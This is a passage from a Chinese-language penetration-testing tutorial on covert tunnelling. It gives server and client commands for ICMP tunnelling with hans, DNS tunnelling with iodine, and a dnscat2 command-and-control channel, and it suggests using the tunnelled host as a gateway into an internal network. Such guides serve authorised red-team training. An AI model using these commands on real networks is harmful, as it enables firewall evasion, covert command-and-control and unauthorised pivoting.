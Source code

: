 ```sh
./hans -v -f -s 1.1.1.1 -p P@ssw0rd
```

`-v` 标志是详细的，`-f` 标志在前台运行，`-s` 标志的值是服务器在新创建的 tun 接口上的 ip。
客户端：

```sh
./hans -f -c <server_ip> -p P@ssw0rd -v
```

连接成功后，客户端应该可以直接在 1.1.1.100 处看到：

```sh
# ping 1.1.1.100
PING 1.1.1.100 (1.1.1.100) 56(84) bytes of data.
64 bytes from 1.1.1.100: icmp_seq=1 ttl=65 time=42.9 ms
```

现在你可以使用这台机器作为进入内部网络的大门。将本机用作默认网关或连接到管理界面（ssh/tsh /web shell）。

### DNS 隧道

如果有任何广域网流量被阻塞，但是外部主机名被解析，那么就有可能通过DNS查询来进行隧道通信。你需要注册一个用于此技术工作的域名。[这个手册](http://dev.kryo.se/iodine/wiki/HowtoSetup)可能会帮助你设置你的名称服务器。

#### Iodine

如果发生这种情况，并且在服务器上获得了 root 访问权限，你可以试试 [iodine](http://code.kryo.se/iodine/)。它几乎像 hans icmp 隧道工具一样工作 - 它创建了一对 tun 适配器，并将它们之间的数据作为 DNS 查询进行隧道传输。服务器端：

```sh
iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
```

客户端：

```sh
iodine -f -P P@ssw0rd tunneldomain.com -r
```

连接成功将在地址 1.1.1.2 处产生直接的客户端可见性。请注意，这种隧道技术非常慢。你最好的选择是在生成的连接上使用一个压缩的 ssh 连接：

```sh
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```

#### Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) 通过递归 DNS 查询建立 C＆C 通道。这个工具不需要 root/administrator 权限（在 windows 和 linux 上都可以）。它也支持端口转发。服务器端：

```sh
ruby ./dnscat2.rb tunneldomain.com
```

客户端：

```sh
./dnscat2 tunneldomain.com
```
